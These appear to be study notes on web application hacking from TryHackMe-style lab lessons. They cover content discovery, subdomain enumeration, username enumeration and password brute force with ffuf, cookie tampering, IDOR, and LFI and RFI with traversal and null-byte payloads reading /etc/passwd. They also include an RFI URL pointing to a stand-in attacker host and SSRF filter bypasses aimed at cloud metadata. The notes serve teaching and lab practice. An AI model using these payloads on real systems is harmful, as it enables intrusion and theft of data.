



# Web Hacking 爵

### Content Discovery

#### Manual Discovery

##### Robots.txt

The robots.txt file is a document that tells search engines which pages they are and aren't allowed to show on their search engine results or ban specific search engines from crawling the website altogether. These pages may be areas such as administration portals or files meant for the website's customers.

```
http://WEBSITE/robots.txt
```
##### Favicon

Sometimes when frameworks are used to build a website, a favicon that is part of the installation gets leftover, and if the website developer doesn't replace this with a custom one, this can give us a clue on what framework is in use. OWASP host a database of common framework icons that you can use to check against the targets favicon https://wiki.owasp.org/index.php/OWASP_favicon_database.

By viewing the page source of the website, we can obtain the link to the favicon, and then run a curl command to download the favicon and get its md5 hash value.



Command:

```sh
 curl https://static-labs.tryhackme.cloud/sites/favicon/images/favicon.ico | md5sum
 ```
 
##### Sitemap.xml 
 
The sitemap.xml file gives a list of every file the website owner wishes to be listed on a search engine. These can sometimes contain areas of the website that are a bit more difficult to navigate to or even list some old webpages that the current site no longer uses but are still working behind the scenes.

```
http://WEBSITE/sitemap.xml
```
 
##### HTTP Headers

When we make requests to the web server, the server returns various HTTP headers. These headers can sometimes contain useful information such as the webserver software and possibly the programming/scripting language in use.

```sh
           
user@machine$ curl http://MACHINE_IP -v
*   Trying MACHINE_IP:80...
* TCP_NODELAY set
* Connected to MACHINE_IP (MACHINE_IP) port 80 (#0)
> GET / HTTP/1.1
> Host: MACHINE_IP
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< X-Powered-By: PHP/7.4.3
< Date: Mon, 19 Jul 2021 14:39:09 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
```
##### Framework Stack

Once you've established the framework of a website, either from the above favicon example or by looking for clues in the page source such as comments, copyright notices or credits, you can then locate the framework's website. From there, we can learn more about the software and other information, possibly leading to more content we can discover.

#### OSINT (Open-Source Intelligence)

##### Google Hacking/Dorking

Google hacking / Dorking utilizes Google's advanced search engine features, which allow you to pick out custom content.

https://en.wikipedia.org/wiki/Google_hacking

##### Wappalyzer

Wappalyzer (https://www.wappalyzer.com/) is an online tool and browser extension that helps identify what technologies a website uses, such as frameworks, Content Management Systems (CMS), payment processors and much more, and it can even find version numbers as well.

##### Wayback Machine

You can search a domain name, and it will show you all the times the service scraped the web page and saved the contents. This service can help uncover old pages that may still be active on the current website.

https://archive.org/web/

##### Github

You can use GitHub's search feature to look for company names or website names to try and locate repositories belonging to your target. Once discovered, you may have access to source code, passwords or other content that you hadn't yet found.

##### S3 Buckets

S3 Buckets are a storage service provided by Amazon AWS, allowing people to save files and even static website content in the cloud accessible over HTTP and HTTPS. The owner of the files can set access permissions to either make files public, private and even writable. Sometimes these access permissions are incorrectly set and inadvertently allow access to files that shouldn't be available to the public. 

#### Automated Discovery

Automated discovery is the process of using tools to discover content rather than doing it manually. This process is automated as it usually contains hundreds, thousands or even millions of requests to a web server. These requests check whether a file or directory exists on a website, giving us access to resources we didn't previously know existed. This process is made possible by using a resource called wordlists.

Examples:

- ffuf
```sh
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.143.70/FUZZ
```
- dirb
```sh
dirb http://10.10.143.70/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```
- gobuster
```sh
gobuster dir --url http://10.10.143.70/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```
### Subdomain Enumeration

Subdomain enumeration is the process of finding valid subdomains for a domain, but why do we do this? We do this to expand our attack surface to try and discover more potential points of vulnerability.

We will explore three different subdomain enumeration methods: Brute Force, OSINT (Open-Source Intelligence) and Virtual Host.

#### SSL/TLS Certificates

When an SSL/TLS (Secure Sockets Layer/Transport Layer Security) certificate is created for a domain by a CA (Certificate Authority), CA's take part in what's called "Certificate Transparency (CT) logs". These are publicly accessible logs of every SSL/TLS certificate created for a domain name.

Sites like https://crt.sh and https://transparencyreport.google.com/https/certificates offer a searchable database of certificates that shows current and historical results.

#### DNS Bruteforce
Bruteforce DNS (Domain Name System) enumeration is the method of trying tens, hundreds, thousands or even millions of different possible subdomains from a pre-defined list of commonly used subdomains.
```sh
dnsrecon -t brt -d acmeitsupport.thm
```
#### Sublist3r

To speed up the process of OSINT subdomain discovery, we can automate the above methods with the help of tools like Sublist3r.

```sh
./sublist3r.py -d acmeitsupport.thm
```
#### Virtual Hosts

Some subdomains aren't always hosted in publically accessible DNS results, such as development versions of a web application or administration portals. Instead, the DNS record could be kept on a private DNS server or recorded on the developer's machines in their /etc/hosts file (or c:\windows\system32\drivers\etc\hosts file for Windows users) which maps domain names to IP addresses. 


Because web servers can host multiple websites from one server when a website is requested from a client, the server knows which website the client wants from the Host header. We can utilise this host header by making changes to it and monitoring the response to see if we've discovered a new website.

```sh
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm"
-u http://10.10.127.95 -fs {size}
```
## Authentication Bypass

### Username Enumeration

If you try entering a username and fill in the other form fields in a new user account with fake information, you'll see we get the error An account with this username already exists. We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below. The ffuf tool uses a list of commonly used usernames to check against for any matches.

```sh
 ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST 
 -d "username=FUZZ&email=x&password=x&cpassword=x" 
 -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.23.210/customers/signup 
 -mr "username already exists"
```
Create a usernames.txt file containing the discovered usernames.

### Brute Force

Using the usernames.txt file, we van use this to attempt a brute force attack on the login page. 

A brute force attack is an automated process that tries a list of commonly used passwords against either a single username or, like in our case, a list of usernames.


When running this command, make sure the terminal is in the same directory as the valid_usernames.txt file.

```sh
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/
10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: 
application/x-www-form-urlencoded" -u http://10.10.23.210/customers/login -fc 200
```
### Logic Flaw

A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker.

The below mock code example checks to see whether the start of the path the client is visiting begins with /admin and if so, then further checks are made to see whether the client is, in fact, an admin. If the page doesn't begin with /admin, the page is shown to the client.

```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
Because the above PHP code example uses three equals signs (===), it's looking for an exact match on the string, including the same letter casing. The code presents a logic flaw because an unauthenticated user requesting /adMin will not have their privileges checked and have the page displayed to them, totally bypassing the authentication checks.

We're going to examine the **reset password** function of a website, which typically sends a password link to the email address of the account owner.

```sh
curl 'http://10.10.175.45/customers/reset?email=robert@acmeitsupport.thm' 
-H 'Content-Type: application/x-www-form-urlencoded' 
-d 'username=robert&email={username}@customer.acmeitsupport.thm'
```
Here the password information is sent to the account we created.

### Cookie Tampering

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges. 

Firstly, we'll start by requesting the target page:

```sh
user@tryhackme$ curl http://MACHINE_IP/cookie-test
```
We can see we are returned a message of: **Not Logged In**

Now we'll send another request with the logged_in cookie set to true and the admin cookie set to false:

```sh
user@tryhackme$ curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
```
We are given the message: **Logged In As A User**

Finally, we'll send one last request setting both the logged_in and admin cookie to true:

```sh
user@tryhackme$ curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
```
This returns the result: **Logged In As An Admin**

## Insecure Direct Object Reference (IDOR)

IDOR stands for Insecure Direct Object Reference and is a type of access control vulnerability.

This type of vulnerability can occur when a web server receives user-supplied input to retrieve objects (files, data, documents), too much trust has been placed on the input data, and it is not validated on the server-side to confirm the requested object belongs to the user requesting it.


### Example 

Imagine you've just signed up for an online service, and you want to change your profile information. The link you click on goes to http://online-service.thm/profile?user_id=1305, and you can see your information.

Curiosity gets the better of you, and you try changing the user_id value to 1000 instead (http://online-service.thm/profile?user_id=1000), and to your surprise, you can now see another user's information. You've now discovered an IDOR vulnerability! Ideally, there should be a check on the website to confirm that the user information belongs to the user logged requesting it.

### Encoded IDs

When passing data from page to page either by post data, query strings, or cookies, web developers will often first take the raw data and encode it. Encoding ensures that the receiving web server will be able to understand the contents. Encoding changes binary data into an ASCII string commonly using the a-z, A-Z, 0-9 and = character for padding. The most common encoding technique on the web is base64 encoding and can usually be pretty easy to spot. 


### Hashed IDs

Hashed IDs are a little bit more complicated to deal with than encoded ones, but they may follow a predictable pattern, such as being the hashed version of the integer value. For example, the Id number 123 would become 202cb962ac59075b964b07152d234b70 if md5 hashing were in use.


It's worthwhile putting any discovered hashes through a web service such as https://crackstation.net/ (which has a database of billions of hash to value results) to see if we can find any matches. 

### Unpredictable IDs

If the Id cannot be detected using the above methods, an excellent method of IDOR detection is to create two accounts and swap the Id numbers between them. If you can view the other users' content using their Id number while still being logged in with a different account (or not logged in at all), you've found a valid IDOR vulnerability.

### IDORs Location

The vulnerable endpoint you're targeting may not always be something you see in the address bar. It could be content your browser loads in via an AJAX request or something that you find referenced in a JavaScript file. 


Sometimes endpoints could have an unreferenced parameter that may have been of some use during development and got pushed to production. For example, you may notice a call to /user/details displaying your user information (authenticated through your session). But through an attack known as parameter mining, you discover a parameter called user_id that you can use to display other users' information, for example, /user/details?user_id=123. 

## File Inclusion

In some scenarios, web applications are written to request access to files on a given system, including images, static text, and so on via parameters. Parameters are query parameter strings attached to the URL that could be used to retrieve data or perform actions based on user input. The following graph explains and breaking down the essential parts of the URL.



### Example

For example, parameters are used with Google searching, where GET requests pass user input into the search engine. https://www.google.com/search?q=TryHackMe

Let's discuss a scenario where a user requests to access files from a webserver. First, the user sends an HTTP request to the webserver that includes a file to display. For example, if a user wants to access and display their CV within the web application, the request may look as follows, http://webapp.thm/get.php?file=userCV.pdf, where the file is the parameter and the userCV.pdf, is the required file to access.


### Why do File inclusion vulnerabilities happen?

File inclusion vulnerabilities are commonly found and exploited in various programming languages for web applications, such as PHP that are poorly written and implemented. The main issue of these vulnerabilities is the input validation, in which the user inputs are not sanitized or validated, and the user controls them. When the input is not validated, the user can pass any input to the function, causing the vulnerability.

### What is the risk of File inclusion?

It depends! If the attacker can use file inclusion vulnerabilities to read sensitive data. In that case, the successful attack causes to leak of sensitive data, including code and files related to the web application, credentials for back-end systems. Moreover, if the attacker somehow can write to the server such as  /tmp directory, then it is possible to gain remote command execution RCE. However, it won't be effective if file inclusion vulnerability is found with no access to sensitive data and no writing ability to the server.

### Path Traversal

Also known as Directory traversal, a web security vulnerability allows an attacker to read operating system resources, such as local files on the server running an application. The attacker exploits this vulnerability by manipulating and abusing the web application's URL to locate and access files or directories stored outside the application's root directory.

Path traversal vulnerabilities occur when the user's input is passed to a function such as file_get_contents in PHP. It's important to note that the function is not the main contributor to the vulnerability. Often poor input validation or filtering is the cause of the vulnerability. In PHP, you can use the file_get_contents to read the content of a file.

#### Example

The following graph shows how a web application stores files in /var/www/app. The happy path would be the user requesting the contents of userCV.pdf from a defined path /var/www/app/CVs.


We can test out the URL parameter by adding payloads to see how the web application behaves. Path traversal attacks, also known as the dot-dot-slash attack, take advantage of moving the directory one step up using the double dots ../. If the attacker finds the entry point, which in this case get.php?file=, then the attacker may send something as follows, http://webapp.thm/get.php?file=../../../../etc/passwd

Suppose there isn't input validation, and instead of accessing the PDF files at /var/www/app/CVs location, the web application retrieves files from other directories, which in this case /etc/passwd. Each .. entry moves one directory until it reaches the root directory /. Then it changes the directory to /etc, and from there, it read the passwd file.

### Local File Inclusion (LFI)

LFI attacks against web applications are often due to a developers' lack of security awareness. With PHP, using functions such as include, require, include_once, and require_once often contribute to vulnerable web applications. In this room, we'll be picking on PHP, but it's worth noting LFI vulnerabilities also occur when using other languages such as ASP, JSP, or even in Node.js apps. LFI exploits follow the same concepts as path traversal.

#### Example

1. Suppose the web application provides two languages, and the user can select between the EN and AR

```php
<?PHP 
	include($_GET["lang"]);
?>
```

The PHP code above uses a GET request via the URL parameter lang to include the file of the page. The call can be done by sending the following HTTP request as follows: http://webapp.thm/index.php?lang=EN.php to load the English page or http://webapp.thm/index.php?lang=AR.php to load the Arabic page, where EN.php and AR.php files exist in the same directory.

Theoretically, we can access and display any readable file on the server from the code above if there isn't any input validation. Let's say we want to read the /etc/passwd file, which contains sensitive information about the users of the Linux operating system, we can try the following: http://webapp.thm/get.php?file=/etc/passwd 

In this case, it works because there isn't a directory specified in the include function and no input validation.

2. Next, In the following code, the developer decided to specify the directory inside the function.

```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```
In the above code, the developer decided to use the include function to call PHP pages in the languages directory only via lang parameters.

If there is no input validation, the attacker can manipulate the URL by replacing the lang input with other OS-sensitive files such as /etc/passwd.

Again the payload looks similar to the path traversal, but the include function allows us to include any called files into the current page. The following will be the exploit:

http://webapp.thm/index.php?lang=../../../../etc/passwd

### Example

1. In this scenario, we have the following entry point: http://webapp.thm/index.php?lang=EN. If we enter an invalid input, such as THM, we get the following error

```
Warning: include(languages/THM.php): failed to open stream: No such file or directory 
in /var/www/html/THM-4/index.php on line 12
```
If you look at the directory closely, we can tell the function includes files in the languages directory is adding  .php at the end of the entry. Thus the valid input will be something as follows:  index.php?lang=EN, where the file EN is located inside the given languages directory and named  EN.php. 

Note that we used 4 ../ because we know the path has four levels /var/www/html/THM-4. But we still receive the following error:

```
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file 
or directory in /var/www/html/THM-4/index.php on line 12
```
It seems we could move out of the PHP directory but still, the include function reads the input with .php at the end! This tells us that the developer specifies the file type to pass to the include function. To bypass this scenario, we can use the NULL BYTE, which is %00.

**NOTE: the %00 trick is fixed and not working with PHP 5.3.4 and above.**

2.  the developer decided to filter keywords to avoid disclosing sensitive information! The /etc/passwd file is being filtered. There are two possible methods to bypass the filter. First, by using the NullByte %00 or the current directory trick at the end of the filtered keyword /.. The exploit will be similar to http://webapp.thm/index.php?lang=/etc/passwd/. We could also use http://webapp.thm/index.php?lang=/etc/passwd%00.

To make it clearer, if we try this concept in the file system using cd .., it will get you back one step; however, if you do cd ., It stays in the current directory.  Similarly, if we try  /etc/passwd/.., it results to be  /etc/ and that's because we moved one to the root.  Now if we try  /etc/passwd/., the result will be  /etc/passwd since dot refers to the current directory.

3. Next, in the following scenarios, the developer starts to use input validation by filtering some keywords. Let's test out and check the error message!

http://webapp.thm/index.php?lang=../../../../etc/passwd

We got the following error!

```
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory 
in /var/www/html/THM-5/index.php on line 15
```


If we check the warning message in the include(languages/etc/passwd) section, we know that the web application replaces the ../ with the empty string. There are a couple of techniques we can use to bypass this.

First, we can send the following payload to bypass it: ....//....//....//....//....//etc/passwd

### Remote File Inclusion - RFI

Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. One requirement for RFI is that the allow_url_fopen option needs to be on.


The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

    Sensitive Information Disclosure
    Cross-site Scripting (XSS)
    Denial of Service (DoS)


An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

#### Example

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message  Hello THM.

```
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

### Remediation


As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

1. Keep system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.

## Server-Side Request Forgery (SSRF)

 It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing. 
 
There are two types of SSRF vulnerability; the first is a regular SSRF where data is returned to the attacker's screen. The second is a Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen.

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:

When a full URL is used in a parameter in the address bar:


A hidden field in a form:



A partial URL such as just the hostname:


Or perhaps only the path of the URL:


Some of these examples are easier to exploit than others, and this is where a lot of trial and error will be required to find a working payload.

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as requestbin.com, your own HTTP server or Burp Suite's Collaborator client.

### Defeating Common SSRF Defenses


More security-savvy developers aware of the risks of SSRF vulnerabilities may implement checks in their applications to make sure the requested resource meets specific rules. There are usually two approaches to this, either a deny list or an allow list.


Deny List

A Deny List is where all requests are accepted apart from resources specified in a list or matching a particular pattern. A Web Application may employ a deny list to protect sensitive endpoints, IP addresses or domains from being accessed by the public while still allowing access to other locations. A specific endpoint to restrict access is the localhost, which may contain server performance data or further sensitive information, so domain names such as localhost and 127.0.0.1 would appear on a deny list. Attackers can bypass a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.


Also, in a cloud environment, it would be beneficial to block access to the IP address 169.254.169.254, which contains metadata for the deployed cloud server, including possibly sensitive information. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address 169.254.169.254.


Allow List

An allow list is where all requests get denied unless they appear on a list or match a particular pattern, such as a rule that an URL used in a parameter must begin with https://website.thm. An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as https://website.thm.attackers-domain.thm. The application logic would now allow this input and let an attacker control the internal HTTP request.


Open Redirect

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect. An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address. Take, for example, the link https://website.thm/link?url=https://tryhackme.com. This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes. But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with https://website.thm/. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.


